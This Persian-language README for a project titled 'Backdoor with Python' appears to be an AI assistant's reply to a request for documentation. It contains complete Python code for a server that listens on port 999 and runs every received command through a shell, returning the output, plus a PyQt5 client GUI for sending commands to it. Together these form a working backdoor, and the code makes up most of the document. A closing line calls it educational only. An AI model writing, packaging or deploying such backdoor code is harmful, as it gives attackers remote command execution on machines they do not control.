 مطمئناً! در زیر نمونه README برای پروژه شما با عنوان "بک دور با پایتون" آورده شده است:

---

# بک دور با پایتون

این پروژه شامل دو قسمت اصلی است: یک سرور که برای اتصال‌های ورودی گوش می‌دهد و دستورات دریافتی را اجرا می‌کند، و یک کلاینت با رابط کاربری PyQt5 که به سرور متصل شده و دستورات را برای اجرا ارسال می‌کند. همچنین کلاینت خروجی دستورات اجرا شده را نمایش می‌دهد.

## امکانات

- اجرای دستورات از راه دور از طریق یک رابط کاربری ساده و کاربرپسند با PyQt5
- نمایش لحظه‌ای خروجی دستورات در برنامه کلاینت
- رابط کاربری آسان برای استفاده با ورودی متن برای دستورات و ناحیه نمایش برای نتایج
- سرور به درخواست‌های چندین کلاینت گوش می‌دهد و آن‌ها را مدیریت می‌کند

## نصب

### پیش نیازها

- Python 3.x
- PyQt5
- تنظیمات شبکه‌ای که ارتباط بین کلاینت و سرور را فراهم کند

### نصب PyQt5

شما می‌توانید PyQt5 را با استفاده از pip نصب کنید:

```bash
pip install PyQt5
```

## استفاده

### اجرای سرور

سرور به اتصال‌های ورودی بر روی هاست و پورت مشخص گوش می‌دهد. دستورات دریافتی را اجرا کرده و خروجی را به کلاینت ارسال می‌کند.

برای اجرای سرور، از دستور زیر استفاده کنید:

```bash
python server.py
```

**کد سرور:**

```python
import subprocess
import socket

def main():
    host = '192.168.0.4'
    port = 999
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((host, port))
    s.listen(1)
    print(f"Listening on port {port}...")
    while True:
        conn, addr = s.accept()
        print(f"Connected to client: {addr[0]}:{addr[1]}")
        
        while True:
            try:
                command = conn.recv(1024).decode().strip()
                if not command:
                    break

                proc = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, error = proc.communicate()

                conn.sendall(output)
                conn.sendall(error)
            except Exception as e:
                conn.sendall(str(e).encode())

        conn.close()

if __name__ == "__main__":
    main()
```

### اجرای کلاینت

کلاینت به سرور متصل شده و یک رابط کاربری گرافیکی برای ارسال دستورات و نمایش نتایج ارائه می‌دهد.

برای اجرای کلاینت، از دستور زیر استفاده کنید:

```bash
python client.py
```

**کد کلاینت:**

```python
import sys
from PyQt5.QtWidgets import QApplication, QWidget, QVBoxLayout, QLineEdit, QPushButton, QTextEdit, QMessageBox
from PyQt5.QtCore import QThread, pyqtSignal
import socket

class ClientThread(QThread):
    output_signal = pyqtSignal(str)

    def __init__(self, host, port, command_input, parent=None):
        super().__init__(parent)
        self.host = host
        self.port = port
        self.command_input = command_input

    def run(self):
        self.conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.conn.connect((self.host, self.port))
        self.output_signal.emit("vasl shod !\n")
        
        while True:
            command = self.command_input.text()
            self.conn.send(command.encode())
            output_data = self.conn.recv(1024).decode()
            self.output_signal.emit(output_data)

class RemoteCommandExecutor(QWidget):
    def __init__(self):
        super().__init__()
        self.init_ui()

    def init_ui(self):
        self.setWindowTitle("Remote Command Executor")

        layout = QVBoxLayout()

        self.output_display = QTextEdit()
        self.output_display.setReadOnly(True)
        layout.addWidget(self.output_display)

        self.command_input = QLineEdit()
        layout.addWidget(self.command_input)

        self.send_button = QPushButton("Send Command")
        self.send_button.clicked.connect(self.send_command)
        layout.addWidget(self.send_button)

        self.setLayout(layout)

        self.host = '192.168.0.4'
        self.port = 999
        self.client_thread = ClientThread(self.host, self.port, self.command_input)
        self.client_thread.output_signal.connect(self.update_output)
        self.client_thread.start()

    def send_command(self):
        command = self.command_input.text()
        self.client_thread.conn.send(command.encode())
        self.command_input.clear()

    def update_output(self, output):
        self.output_display.append(output)

if __name__ == '__main__':
    app = QApplication(sys.argv)
    window = RemoteCommandExecutor()
    window.show()
    sys.exit(app.exec_())
```

## تصاویر

![رابط کاربری کلاینت](screenshot-client.png)
*تصویری از رابط کاربری کلاینت برای اجرای دستورات از راه دور.*

## مشارکت

1. ریپازیتوری را فورک کنید.
2. یک شاخه جدید ایجاد کنید (`git checkout -b feature-branch`).
3. تغییرات خود را کامیت کنید (`git commit -am 'Add new feature'`).
4. به شاخه خود پوش کنید (`git push origin feature-branch`).
5. یک Pull Request جدید ایجاد کنید.

## مجوز

این پروژه تحت مجوز MIT منتشر شده است - برای جزئیات بیشتر فایل [LICENSE](LICENSE) را ببینید.

## اعلان

این پروژه فقط برای مقاصد آموزشی است. لطفاً از آن به صورت مسئولانه و اخلاقی استفاده کنید.

---

این نمونه README شامل تمام جزئیات لازم برای توضیح پروژه شما، نصب و اجرای آن و همچنین برخی جزئیات اضافی است که ممکن است برای کاربران مفید باشد. شما می‌توانید این فایل را به دلخواه خود تغییر داده و سفارشی کنید.

